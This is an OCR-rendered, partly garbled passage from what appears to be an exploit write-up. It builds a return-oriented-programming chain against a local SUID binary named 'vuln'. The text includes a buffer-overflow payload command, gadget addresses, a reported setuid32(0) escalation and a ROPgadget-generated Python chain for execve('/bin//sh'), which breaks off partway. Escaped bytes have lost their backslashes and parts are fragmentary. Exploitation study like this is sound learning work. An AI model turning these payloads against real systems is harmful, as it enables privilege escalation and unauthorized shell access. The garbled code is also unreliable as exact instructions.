 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx

Now we 0x00000000 eax (I have not done before but does not affect …)  
`xor eax, eax`  
Now the famous  
`or al, ch`  
Fortunately in the ebx we have a 0x0, so we just need to find a `int 0x80;ret` (if only one syscall lets invoke an `int 0x80` enough, however, after stringing more sycall we ROP). When ROPgadget in /usr/lib32/libc.so.6 not find one I almost choked. then we look in ld-linux.so.2, which are in fact two results.  
`int 0x80`  
Something like that  
`0x080486ee x4`

0x080484aa x2  
0x080486ee  
0x080484aa x2  
0x080486ee  
0x080484aa x2  
0x080486ee

0x080484aa x8

0xf7df321f

0x08048337

0xf7fd6c30  
Hacemos la prueba y mediante strace vemos el setuid32(0). Perfecto.  
Now with `python2.7 ROPgadget/ROPgadget.py --binary vuln --badbytes 00 --ropchain` we try to generate a ropchain for execve (), however, it is not capable. Let’s try for some bookstore:  
`python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --badbytes 00 --ropchain --offset 0xf7dc4000`  
Generates the following code  
`#!/usr/bin/env python2  
# execve generated by ROPgadget`

from struct import pack

\# Padding goes here  
p = ”

p += pack(‘<I’, 0xf7ddf52c) # pop esi ; ret  
p += pack(‘<I’, 0xf7f9b004) # @ .data  
p += pack(‘<I’, 0xf7dc5aae) # pop edx ; ret  
p += ‘/bin’  
p += pack(‘<I’, 0xf7e4a686) # mov dword ptr \[esi\], edx ; pop ebx ; pop esi ; ret  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7ddf52c) # pop esi ; ret  
p += pack(‘<I’, 0xf7f9b008) # @ .data + 4  
p += pack(‘<I’, 0xf7dc5aae) # pop edx ; ret  
p += ‘//sh’  
p += pack(‘<I’, 0xf7e4a686) # mov dword ptr \[esi\], edx ; pop ebx ; pop esi ; ret  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7ddf52c) # pop esi ; ret  
p += pack(‘<I’, 0xf7f9b00c) # @ .data + 8  
p += pack(‘<I’, 0xf7df804e) # xor edx, edx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret  
```